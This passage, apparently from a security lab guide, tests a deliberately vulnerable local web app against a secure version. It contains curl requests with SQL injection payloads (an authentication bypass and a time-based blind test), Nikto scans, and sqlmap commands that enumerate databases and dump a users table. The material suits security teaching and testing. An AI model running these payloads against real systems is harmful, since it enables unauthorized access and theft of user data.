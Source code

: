 #### **Vulnerability Scanning:**
```bash
# Nikto Web Scanner
nikto -h http://localhost:3000 -Format txt -output nikto-vulnerable.txt
nikto -h http://localhost:3001 -Format txt -output nikto-secure.txt

# Custom Vulnerability Scripts
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\'' OR '\''1'\''='\''1","password":"test"}'

# Response time analysis for blind SQL injection
time curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\'' AND SLEEP(5)--","password":"test"}'
```

### **2. SQL Injection Exploitation with SQLMap** 🗃️

#### **SQLMap Installation & Setup:**
```bash
# Install SQLMap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python sqlmap.py --version

# Basic SQLMap usage
python sqlmap.py -u "http://localhost:3000/api/login" \
  --data='{"username":"admin","password":"test"}' \
  --headers="Content-Type: application/json" \
  --method=POST \
  --level=5 \
  --risk=3 \
  --batch
```

#### **Advanced SQLMap Techniques:**
```bash
# Database enumeration
python sqlmap.py -u "http://localhost:3000/api/login" \
  --data='{"username":"admin","password":"test"}' \
  --headers="Content-Type: application/json" \
  --method=POST \
  --dbs \
  --batch

# Table enumeration
python sqlmap.py -u "http://localhost:3000/api/login" \
  --data='{"username":"admin","password":"test"}' \
  --headers="Content-Type: application/json" \
  --method=POST \
  -D main \
  --tables \
  --batch

# Data extraction
python sqlmap.py -u "http://localhost:3000/api/login" \
  --data='{"username":"admin","password":"test"}' \
  --headers="Content-Type: application/json" \
  --method=POST \
  -D main \
  -T users \
  --dump \
  --batch
```